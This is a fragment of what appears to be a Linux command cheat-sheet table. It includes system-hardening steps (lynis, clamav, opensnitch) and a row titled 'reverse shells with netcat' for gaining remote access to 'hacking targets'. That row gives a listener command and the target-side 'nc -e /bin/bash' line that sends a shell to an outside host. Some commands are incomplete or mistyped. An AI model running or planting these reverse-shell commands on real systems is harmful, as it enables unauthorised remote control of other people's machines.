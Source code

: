 ```bash

```
<br /></td>
</tr>

<tr>
<th>Audit & Lock Down Your System</th>
<td>with lynis<br /></td>
<td>

```bash
$ sudo wget 'https://github.com/CISOfy/lynis/archive/master.zip'
$ sudo unzip
$ cd lynis-master
$ sudo chmod +x lynis
$ sudo ./lynis audit system
$ sudo apt-get install clamav
$ sudo clamscan -r / --log=mp/clamav_report.log (complete scan of system - all file)
$ sudo clamscan -ir malware

opensnitch:
$ sudo apt install protobuf-compiler libpcap-dev libnetfilter-queue-dev python3-pip golang git go-dep
$ go get github.com/golang/protobuf/protoc-gen-go (step 3)
$ python3 -m pip install --user grpcio-tools (step 1)
$ go get github.com/evilsocket/opensnitch (step 2)
$ echo 'export GOPATH=$HOME/go' >> ~/.bashrc
$ source ~/.bashrc
$ make
$ sudo make install
$ sudo systemctl enable opensnitchd
system logs:
$ find /var/log/ -type f \( -name "*.log" \) -exec tail -f "$file" {} +

```

<br /></td>
</tr>


<tr>
<th>reverse shells with netcat</th>
<td>how to get remote access to your hacking targets<br /></td>
<td>

$ nc -lnvp 87 -s source_ip (l=listening for a connection, n= no dns, only ip; v=verbose, p=port) <br />
In the target machine (both machines must have netcat-nc): <br />
$ nc -e /bin/bash source_ip 87 (port 87) <br />
We want the above script to be installed in the machine and executed.<br />
In windows: using [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) <br />
(server side) $ stty raw -echo; (stty size; cat) | nc -lvnp 87 -s 69.164.204.158 <br />
